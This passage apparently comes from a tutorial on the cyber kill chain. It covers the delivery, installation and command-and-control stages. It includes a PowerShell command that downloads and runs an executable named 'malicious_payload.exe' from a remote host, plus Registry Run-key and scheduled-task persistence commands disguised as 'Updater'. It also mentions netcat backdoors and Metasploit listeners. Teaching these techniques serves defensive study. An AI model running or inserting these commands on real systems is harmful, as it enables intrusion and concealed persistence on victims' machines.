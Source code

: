 ### Examples

Executing a payload using PowerShell:

```powershell
# Download and execute malicious payload
Invoke-WebRequest -Uri "http://192.168.1.10/malicious_payload.exe" -OutFile "C:\\Users\\Public\\malicious_payload.exe"
Start-Process "C:\\Users\\Public\\malicious_payload.exe"
```

Or exploit web vulnerabilities using **SQL Injection, XSS,** or **file upload exploits** to compromise the target.

---

## 5. Installation

**Installation** ensures persistence, allowing the attacker to retain access to the system even after a reboot. Attackers often add their payload to startup scripts, services, or scheduled tasks.

### Tools & Commands

- **Registry Keys**: To create persistence.
- **Scheduled Tasks**: To run malware on boot.

### Examples

Using Windows Registry for persistence:

```powershell
# Add a registry key for persistence
$path = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Set-ItemProperty -Path $path -Name "Updater" -Value "C:\Users\Public\malicious_payload.exe"
```

Or, using **Scheduled Tasks** in Windows:

```bash
schtasks /create /tn "Updater" /tr "C:\Users\Public\malicious_payload.exe" /sc onlogon
```

---

## 6. Command and Control (C2)

During **Command and Control (C2)**, attackers communicate with the compromised system, sending commands and receiving data. Attackers use various protocols (HTTP, HTTPS, DNS) to maintain communication without detection.

### Tools & Commands

- **Metasploit**: For creating a C2 listener.
- **netcat**: A simple tool to establish a backdoor.

